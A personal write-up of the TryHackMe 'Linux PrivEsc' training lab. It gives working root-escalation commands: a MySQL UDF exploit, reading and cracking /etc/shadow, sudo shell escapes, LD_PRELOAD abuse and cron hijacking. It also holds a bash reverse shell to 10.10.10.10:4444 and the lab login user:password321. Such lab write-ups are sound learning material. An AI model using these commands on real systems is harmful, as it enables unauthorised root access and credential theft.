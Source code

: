 ```yaml
---
description: >-
  Today is my Day 1 and I am going to solve machine named Linux PrivEsc on
  TryHackMe lets goo!!!!
---
```


# Day 1 — Linux PrivEsc

{% embed url="https://miro.medium.com/v2/resize:fit:640/format:webp/0*k-2t2eWJ08uuoBjZ.gif" %}

{% hint style="info" %}
**misconfigured** Debian VM with multiple ways to get root! SSH is available. <mark style="color:red;">**Credentials: user:password321**</mark>
{% endhint %}

### Service Exploits

**using nmap** \


<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>open ports</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
cd /home/user/tools/mysql-udf
gcc -g -c  raptor_udf2.c  -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}

**I found misconfiger in sql login with out password**

{% hint style="info" %}
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
{% endhint %}

A user-defined function (UDF) is a [function](https://en.wikipedia.org/wiki/Function\_\(programming\)) provided by the user of a program or environment, in a context where the usual assumption is that functions are built into the program or environment. UDFs are usually written for the requirement of its creator.

```bash
mysql -u root
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

#### What is BLOB in MySQL?

BLOB, which stands for a **Binary Large Object**, is a MySQL data type that can store images, PDF files, multimedia, and other types of binary data.

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>SERVICE EXPLOIT</p></figcaption></figure>

### Weak File Permissions - Readable /etc/shadow

**Read only => r**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
#hash root in file using nano
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**What hashing algorithm was used to produce the root user's password hash?**

```
cat hash | hashid
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><strong>SHA-512  Crypt</strong></p></figcaption></figure>

### Weak File Permissions - Writable /etc/shadow

**Write only**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
mkpasswd -m sha-512 newpasswordhere #=> read only
or 
openssl passwd newpasswordhere => #wite only
su root

```
{% endcode %}

Generate a new password hash with a password of your choice:

<mark style="color:green;">**`mkpasswd -m sha-512 newpasswordhere`**</mark>\


<mark style="color:green;">**`openssl passwd newpasswordhere`**</mark>

### Sudo - Shell Escape Sequences

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with “sudo” as a function, you can use it to elevate privileges, usually via an escape sequence.

```bash
#vim
sudo vim -c ':!/bin/bash'

#nano 
sudo nano -s /bin/bash
/bin/bash
^T
#apache2
sudo apache2 -f /etc/shadow #=> crack the hash and gain the root
```

## Task 7 — Sudo — Environment Variables <a href="#a6ec" id="a6ec"></a>

Using LD\_PRELOAD

```basic
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
 sudo LD_PRELOAD=/tmp/preload.so apache2
```

`ldd /usr/sbin/apache2`

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs - File Permissions

```bash
cat /etc/cronta

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

using nc  in kali

```bash
nc -nvlp 4444
```

### Cron Jobs - PATH Environment Variable

**Note that the PATH variable starts with /home/user which is our user's home directory.**

**Create a file called overwrite.sh in your home directory with the following contents:**

```bash
cat /etc/crontab

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

<mark style="color:green;">**`chmod +x /home/user/overwrite.sh`**</mark>

```basic
/tmp/rootbash -p
```
